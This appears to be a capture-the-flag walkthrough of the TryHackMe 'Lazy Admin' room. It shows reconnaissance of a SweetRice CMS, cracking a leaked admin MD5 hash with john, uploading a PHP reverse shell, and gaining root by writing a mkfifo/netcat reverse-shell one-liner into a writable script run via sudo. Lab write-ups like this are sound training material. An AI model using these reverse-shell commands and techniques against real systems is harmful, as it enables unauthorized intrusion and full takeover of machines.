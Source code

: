 # Lazy Admin

This is for the *easy* difficulty Lazy Admin machine found at (https://tryhackme.com/room/lazyadmin)
_____________
## Recon and Enumeration

First we will start with basic nmap analysis of the machine. `nmap -T4 Lazy`

This reveals a couple of open ports 22 and 80.  Pretty typical ports.  Let's run a service scan as well.  `nmap -T4 -sV Lazy`

![Nmap](img/LazyAdmin/Nmap)

This reveals that the server is running a 2.4.18 version of Apache, and using 4ubuntu2.8 ssh.

Now let's start up a gobuster against the http domain to expedite our enumeration before we open the http page.

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -t 30 -u 10.10.210.228`

As expected and revealed by the scans, the basic page is the Ubuntu Default page for Apache2.  Let's see what gobuster found.

![Gobuster](img/LazyAdmin/Gobuster)

It looks like we found a /content directory.  That sounds juicy, let's investigate.

![Rice](img/LazyAdmin/Sweetrice)

And here we find that the content management system being installed is called SweetRice.  Let's poke around the page some.  Looking at the source for the page doesn't reveal much, but we can use gobuster on this directory as well to see what we can find.

![Gobuster2](img/LazyAdmin/gobuster2)

This gives us many more places to mess around, including attachment, images, inc, js, and as.

/as appears to lead to a signin page, while attachment appears to be remote file hosting.  Inc is much more boring, but it does contain some interesting data.  We can download a mysql backup to review in a bit.  Also latest.txt tells us that the CMS is version 1.5.1.  This is massive as it may give us insight into vulnerabilities we can take advantage of later.  Let's check against searchsploit.

![SearchingForAnswers](img/LazyAdmin/Searchsploit)

This shows us multiple cve for 1.5.1, including Backup Disclosure and some PHP Code Execution.  Let's see what's up with the Backup Disclosure first.  If we can get a foothold, we can potentially access all mysql backups from localhost.  That may be useful later.  Let's try the CSRF one next.
It will allow us to potentially get a shell another way later on, but appears to need admin.  

Let's cat out this sql backup and see what we can find.  

![SQL](img/LazyAdmin/SQL)

Looks like we have the admin username: manager and the password hash.  Before we can use it, we'll have to crack it, but before we can do that, we should figure out what kind of hash it is.  `hashid` is the function that saves lives in times like this.  Checking it gives us a few options, after trying them, it appears that it is a MD5 hash.  We add the hash to a file and check it with john using the following command:

`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This provides the password for us to use.  We can try it on ssh, but it doesn't work :<  Luckily it does work with the admin portal, and we are now in!

![Admin](img/LazyAdmin/Sweetrice2)

_____________
## Initial Foothold
______________

Let's look around and see if we can take advantage of some of these vulnerabilities we looked at earlier. 

Or better yet, we can find a way to make a post and add in an attachment, this should be enough to give us a reverse shell as we can add a reverse shell script in and curl it down while listening to the port we have with netcat.  First let's upload the file.

![Post](img/LazyAdmin/AdminPost)

We just fill the forms for the post, that isn't the important part, but we add an attachment, for this I'm using the php-reverse-shell script.  Once that is added, I can go to the directory created, and find the script there.  

![Uploaded](img/LazyAdmin/Uploaded%20file)


Now we can set up netcat, I set the port to 443 but you can set it to anything you'd like.  I open a new shell and listen using the following command `sudo nc -lvnp 443` then curl down the file we uploaded, which initiates the php and creates the shell connection.  

______________
## Privilege Escalation
_______________

![Foothold](img/LazyAdmin/Initial%20Foothold)
We're finally in.  Looking for user.txt finds it in a user called `itguy`'s account, but we don't have permissions to get in.  First things first: let's stabilize the shell.  `python -c 'import pty; pty.spawn("/bin/sh")'` should take care of that. Now let's see if we can find anything we can run as sudo.  

Sudo -l reveals that we can run `/usr/bin/perl /home/itguy/backup.pl` as sudo without a password.  This should get us in as itguy.  Let's see if we can adjust the perl script at all.

It appears to spawn a shell and run copy.sh, let's check that file.  

`ls -la | grep 'copy.sh'` reveals that all have rwx permissions.  Let's edit this to spawn in a root shell.  It already appears to nc in a shell, so we just need to set the right ip and port.  Time to finish this.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.46.115 443 >/tmp/f > /etc/copy.sh`

This successfully writes to the file.  We can now start up a second nc connection then run the command listed by sudo -l.  When we run this command we now see that we are root!

![Root](img/LazyAdmin/Root)

We can now find the user.txt in /home/itguy and root in /root, finishing the box.

